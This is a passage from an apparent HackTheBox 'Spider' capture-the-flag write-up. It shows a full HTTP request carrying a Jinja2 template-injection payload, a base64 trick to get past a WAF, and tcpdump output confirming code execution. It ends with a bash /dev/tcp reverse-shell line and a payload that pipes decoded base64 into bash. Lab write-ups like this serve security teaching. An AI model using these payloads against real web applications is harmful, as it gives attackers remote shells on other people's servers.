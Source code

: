 Let's send this payload  to that form.
```bash
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 331
Origin: http://spider.htb
Connection: close
Referer: http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal
Cookie: session=eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Iicgb3IgMT0xICMifQ.YLWl-g.9GDmlx3KLu0Ozar4gnZq5GgB63M
Upgrade-Insecure-Requests: 1


contact=%7B%25+with+a+%3D+request%5B%22application%22%5D%5B%22%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%22%5D%5B%22%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%22%5D%5B%22%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%22%5D%28%22os%22%29%5B%22popen%22%5D%28%22ping+-c+4+10.10.14.7%22%29%5B%22read%22%5D%28%29+%25%7D+a+%7B%25+endwith+%25%7D%0D%0A&message=%7B%25+with+a+%3D+request%5B%22application%22%5D%5B%22%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%22%5D%5B%22%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%22%5D%5B%22%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%22%5D%28%22os%22%29%5B%22popen%22%5D%28%22ping+-c+4+10.10.14.7%22%29%5B%22read%22%5D%28%29+%25%7D+a+%7B%25+endwith+%25%7D%0D%0A
```
We got the response saying "Hmmm, you seem to have hit a our WAF with the following chars: . " so we can say that we cannnot use '.' in our payload so let's try to base64 encode our payload as it is the basic way to avoid such restrictions.
```bash
kali@kali:~/HackTheBox/Spider$ echo -n 'ping -c 4 <YOUR IP>' | base64
cGluZ<-----SNIP------>E0Ljc=
```
So lets's try and send it.
```bash
kali@kali:~/HackTheBox/Spider$ sudo tcpdump -i tun0 -n icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
04:07:37.965482 IP 10.10.10.243 > 10.10.14.7: ICMP echo request, id 21857, seq 1, length 64
04:07:37.965916 IP 10.10.14.7 > 10.10.10.243: ICMP echo reply, id 21857, seq 1, length 64
04:07:37.965482 IP 10.10.10.243 > 10.10.14.7: ICMP echo request, id 21857, seq 1, length 64
04:07:37.965916 IP 10.10.14.7 > 10.10.10.243: ICMP echo reply, id 21857, seq 1, length 64
04:07:37.965482 IP 10.10.10.243 > 10.10.14.7: ICMP echo request, id 21857, seq 1, length 64
04:07:37.965916 IP 10.10.14.7 > 10.10.10.243: ICMP echo reply, id 21857, seq 1, length 64
04:07:37.965482 IP 10.10.10.243 > 10.10.14.7: ICMP echo request, id 21857, seq 1, length 64
04:07:37.965916 IP 10.10.14.7 > 10.10.10.243: ICMP echo reply, id 21857, seq 1, length 64
```
Got that call back with base64 encoded payload.
So we have RCE now let's get the rev shell.
Create a file with basic reverse shell payload.
```bash
bash -i >& /dev/tcp/<YOUR IP>/<PORT>
```
and then juse base64 encode it.
```bash
cat <FILENAME> | base64
```
Where filename is the name of above file.
And then just eand that base64 encoded payload to the Contact feild in the form.
###### payload
```python
{% with a = request\["application"\]\["\\x5f\\x5fglobals\\x5f\\x5f"\]\["\\x5f\\x5fbuiltins\\x5f\\x5f"\]\["\\x5f\\x5fimport\\x5f\\x5f"\]("os")\["popen"\]("echo -n <YOUR BASE64 encoded data> | base64 -d | bash")\["read"\]() %} a {% endwith %}
```